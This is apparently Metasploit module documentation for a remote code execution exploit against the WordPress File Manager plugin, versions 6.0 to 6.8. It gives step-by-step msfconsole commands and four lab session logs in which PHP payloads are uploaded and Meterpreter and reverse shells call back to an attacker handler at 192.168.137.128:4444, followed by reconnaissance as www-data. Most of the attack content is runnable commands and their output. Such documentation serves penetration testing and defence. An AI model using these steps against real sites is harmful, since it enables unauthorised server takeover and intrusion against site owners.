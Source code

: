 ## Vulnerable Application

Get a copy of version 6.0 plugin from https://downloads.wordpress.org/plugin/wp-file-manager.6.0.zip.

Vulnerable versions are 6.0-6.8. Versions below 6.0 are not vulnerable and version 6.9 has been patched.

## Verification Steps

1. Start msfconsole
2. Do: `use exploit/multi/http/wp_file_manager_rce`
3. Do: `set TARGETURI <target_uri>`
4. Do: `set RHOSTS <target_ip>`
5. Optional: Do: `set RPORT <target_port>`
6. Optional: Do: `set PAYLOAD <payload>` to switch payloads
7. Optional: Do: `set COMMAND <command>` to switch elFinder commands used to exploit vulnerability
7. Do: `check` to confirm existence of vulnerability or `exploit` to let the shells rain

## Options

### COMMAND
This vulnerability can be exploited in 2 ways:
1. `upload` to directly upload a payload
2. `mkfile` to create a file, then `put` to write arbitrary code to the newly created file

This option has 2 valid values:
1. `upload`: exploit using the `upload` technique (default)
2. `mkfile+put`: exploit using `mkfile` and `put` 

## Scenarios

### Docker container, WordPress 5.5.1, File Manager plugin version 6.0, default path for File Manager, default payload, using `upload`

```
msf6 > use exploit/multi/http/wp_file_manager_rce 
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(multi/http/wp_file_manager_rce) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 exploit(multi/http/wp_file_manager_rce) > set RPORT 8080
RPORT => 8080
msf6 exploit(multi/http/wp_file_manager_rce) > set VERBOSE true
VERBOSE => true
msf6 exploit(multi/http/wp_file_manager_rce) > exploit

[*] Started reverse TCP handler on 192.168.137.128:4444 
[*] Checking /wp-content/plugins/wp-file-manager/readme.txt
[*] Found version 6.0 in the plugin
[*] 127.0.0.1:8080 - Payload is at /wp-content/plugins/wp-file-manager/lib/files/aEiptb.php
[*] Sending stage (39264 bytes) to 172.17.0.3
[*] Meterpreter session 1 opened (192.168.137.128:4444 -> 172.17.0.3:35578) at 2020-10-12 20:19:16 +0800

meterpreter > sysinfo
Computer    : 6fc94cd81e93
OS          : Linux 6fc94cd81e93 5.8.0-kali1-amd64 #1 SMP Debian 5.8.7-1kali1 (2020-09-14) x86_64
Meterpreter : php/linux
meterpreter > getuid
Server username: www-data (33)
meterpreter > 
```

### Docker container, WordPress 5.5.1, File Manager plugin version 6.0, default path for File Manager, `php/reverse_php` payload, using `upload`
```
msf6 exploit(multi/http/wp_file_manager_rce) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 exploit(multi/http/wp_file_manager_rce) > set RPORT 8080
RPORT => 8080
msf6 exploit(multi/http/wp_file_manager_rce) > set VERBOSE true
VERBOSE => true
msf6 exploit(multi/http/wp_file_manager_rce) > set PAYLOAD php/reverse_php
PAYLOAD => php/reverse_php
msf6 exploit(multi/http/wp_file_manager_rce) > exploit

[*] Started reverse TCP handler on 192.168.137.128:4444 
[*] Checking /wp-content/plugins/wp-file-manager/readme.txt
[*] Found version 6.0 in the plugin
[*] 127.0.0.1:8080 - Payload is at /wp-content/plugins/wp-file-manager/lib/files/XFVi0d.php
[*] Command shell session 2 opened (192.168.137.128:4444 -> 172.17.0.3:35598) at 2020-10-12 20:20:04 +0800

uname -a
Linux 6fc94cd81e93 5.8.0-kali1-amd64 #1 SMP Debian 5.8.7-1kali1 (2020-09-14) x86_64 GNU/Linux
whoami
www-data
```

### Docker container, WordPress 5.5.1, File Manager plugin version 6.0, default path for File Manager, default payload, using `mkfile+put`
```
msf6 > use multi/http/wp_file_manager_rce
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(multi/http/wp_file_manager_rce) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 exploit(multi/http/wp_file_manager_rce) > set RPORT 8080
RPORT => 8080
msf6 exploit(multi/http/wp_file_manager_rce) > set VERBOSE true
VERBOSE => true
msf6 exploit(multi/http/wp_file_manager_rce) > set COMMAND mkfile+put 
COMMAND => mkfile+put
msf6 exploit(multi/http/wp_file_manager_rce) > exploit

[*] Started reverse TCP handler on 192.168.137.128:4444 
[*] Checking /wp-content/plugins/wp-file-manager/readme.txt
[*] Found version 6.0 in the plugin
[*] 127.0.0.1:8080 - Payload is at /wp-content/plugins/wp-file-manager/lib/files/unl8LJ.php
[*] Sending stage (39264 bytes) to 172.17.0.3
[*] Meterpreter session 5 opened (192.168.137.128:4444 -> 172.17.0.3:38076) at 2020-10-15 17:42:00 +0800

meterpreter > sysinfo
Computer    : 6fc94cd81e93
OS          : Linux 6fc94cd81e93 5.8.0-kali1-amd64 #1 SMP Debian 5.8.7-1kali1 (2020-09-14) x86_64
Meterpreter : php/linux
meterpreter > getuid
Server username: www-data (33)
meterpreter > 
```

### Docker container, WordPress 5.5.1, File Manager plugin version 6.0, default path for File Manager, `php/reverse_php` payload, using `mkfile+put`
```
msf6 exploit(multi/http/wp_file_manager_rce) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 exploit(multi/http/wp_file_manager_rce) > set RPORT 8080
RPORT => 8080
msf6 exploit(multi/http/wp_file_manager_rce) > set PAYLOAD php/reverse_php
PAYLOAD => php/reverse_php
msf6 exploit(multi/http/wp_file_manager_rce) > set COMMAND mkfile+put 
COMMAND => mkfile+put
msf6 exploit(multi/http/wp_file_manager_rce) > exploit

[*] Started reverse TCP handler on 192.168.137.128:4444 
[*] Checking /wp-content/plugins/wp-file-manager/readme.txt
[*] Found version 6.0 in the plugin
[*] 127.0.0.1:8080 - Payload is at /wp-content/plugins/wp-file-manager/lib/files/DmFEWt.php
[*] Command shell session 6 opened (192.168.137.128:4444 -> 172.17.0.3:38096) at 2020-10-15 17:43:27 +0800

uname -a
Linux 6fc94cd81e93 5.8.0-kali1-amd64 #1 SMP Debian 5.8.7-1kali1 (2020-09-14) x86_64 GNU/Linux
whoami
www-data
```